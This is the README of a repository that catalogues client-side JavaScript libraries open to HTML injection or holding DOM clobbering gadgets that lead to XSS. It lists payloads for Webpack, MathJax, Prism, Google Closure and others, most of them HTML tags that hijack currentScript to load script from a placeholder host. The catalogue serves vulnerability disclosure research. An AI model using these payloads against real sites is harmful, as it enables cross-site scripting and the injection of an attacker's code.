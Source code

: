 # DOM Clobbering Collection

In this repo, we collect a list of client-side libraries that are either vulnerable to HTML injection or contain DOM Clobbering gadgets that lead to severe consequences, e.g., XSS.

## HTML Injection Vulnerabilities

The following libraries accept user input and output content as `type/html` with certain named attributes (e.g., `id` or `name`) preserved at different levels (refer to `Capability`).
Using these libraries may expose web applications to HTML injection risks. Libraries may directly insert user input into the DOM, or the web application may retrive the output from the library and then add it to the DOM.

| Library | Stars | Version | Input | Sanitizer | Capability | Status | CVE |
|:-------:|:-----:|:-------:|-------|:---------:|-------------------------|:------:|:---:|
| [Froala](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/froala.md) | 5.3K | v4.2.2 | Copy&Paste | DOMPurify | Any `name` attributes | N/A | N/A |
| [RichTextEditor](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/richtexteditor.md) | N/A | Latest | Copy&Paste | N/A | Any named property | N/A | N/A |
| [SunEditor](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/sun-editor.md) | 1.7K | v2.47.0 | Type | N/A | `a` tag with `id` | N/A | N/A |
| [TinyMCE-v5/6/7](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/tinymce.md) | 14.9K | v7.3.0 | Copy&Paste | DOMPurify | Any named property without collision | N/A | N/A |
| [TinyMCE-v4](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/tinymce4.md) | 14.9K | v4.9.11 | Copy&Paste | N/A | Any named property | N/A | N/A |
| [tui.editor](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/tui-editor.md) | 17.1K | v3.2.2 | Type | DOMPurify | Any named property without collision  | N/A | N/A |

## DOM Clobbering Gadgets

| Library | Stars | Version | Payloads | Impact | Found By | Status | CVE |
|:-------:|:-----:|:-------:|----------|:------:|:--------:|:------:|:---:|
| [AddToAny](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/addtoany.md) | N/A | N/A | ```<img src="https://addtoany.xxx.xxx" name="currentScript">``` | XSS | TheHulk | Patched | N/A |
| [doomcaptcha](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/doomcaptcha.md) | 1K | latest | ```<img name="currentScript" label="<script>alert(1)</script>"></img>``` | XSS | TheHulk | Mitre | N/A |
| [Google Client API](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/google-client-api.md) | N/A | 5BIk7BglYEE | ```<iframe name="scripts" src=”https://apis.google.com/js/api.js”></iframe><iframe name="scripts" src=”https://apis.google.com/js/api.js”>alert(1)</iframe>``` | XSS | TheHulk | Patched | N/A |
| [Google Closure](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/google-closure-library.md) | 4.9K | v20230103 | ```<img name="currentScript" src="https://xxx.xxx.xxx/base.js"></img>``` | XSS | TheHulk | Accepted | N/A |
| [inspire.js](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/inspire.js.md) | 1.7k | v1.10 | ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>``` | XSS | TheHulk | Reported | N/A |
| [MathJax](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/mathjax2.md) | 10.1K | v2.7.x | ```<a id="MathJax"></a> <a id="MathJax" name="root" href="https://xxx.xxx.xxx"></a>``` | XSS | TheHulk | Accepted | N/A |
| [MathJax](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/mathjax3.md) | 10.1K | v3.2.2 | ```<img name="currentScript" src="https://xxx.xxx.xxx"></img> $$\require{tex}$$``` | XSS | TheHulk | Accepted | N/A |
| [Mavo](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/mavo.md) | 2.8K | v0.3.2 | ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>``` | XSS | TheHulk | Reported | N/A |
| [pagefind](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/pagefind.md) | 3.3K | v1.1.0 | ```<img name="currentScript" src="blob:https://xxx.xxx.xxx/ui.js"></img>``` | XSS | TheHulk | Reported | N/A |
| [polyfills](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/polyfills.md) | 1.1K | v2.8.0 | ```<a id="ShadyDOM"></a><a id="ShadyDOM" name="force"></a><a id="WebComponents"></a><a id="WebComponents" name="root" href="https://xxx.xxx.xxx"></a>``` | XSS | TheHulk | N/A | N/A |
| [Prism](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/prism.md) | 12.2K | v1.29.0 | ```<img name="currentScript" src="https://xxx.xxx.xxx/a.js"></img>``` | XSS | TheHulk | Reported | N/A |
| [rspack](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/rspack.md) | 8.6K | v1.0.0-rc.0 | ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>``` | XSS | TheHulk | N/A | N/A |
| [squirt](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/squirt.md) | 1.2K | v0.0.1 | ```<img name="scripts" src="http://xxx.xxx.xxx"><img name="scripts" src="http://xxx.xxx.xxx">``` | XSS | TheHulk | N/A  | N/A |
| [Stage.js](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/stage.js.md) | 2.4K | v1-alpha | ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>``` | XSS | TheHulk | Reported | N/A |
| [steal](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/steal.md) | 1.4K | v2.3.0 | ```<img name="currentScript" src="https://xxx.xxx.xxx"><img>``` | XSS | TheHulk | Mitre | N/A |
| [tsup](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/tsup.md) | N/A | N/A | ```<img src="https://xxx.xxx.xxx" name="currentScript">``` | XSS | TheHulk | N/A | N/A |
| [UMeditor](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/umeditor.md) | 1.4K | v1.2.2 | ```<a id="UMEDITOR_HOME_URL" href="https://xxx.xxx.xxx/"></a>``` | XSS | TheHulk | Reported | N/A |
| [Webpack](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/webpack.md) | 64.4K | v5.93.0 | ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>``` | XSS | TheHulk | Patched | CVE-2024-XXXXX |
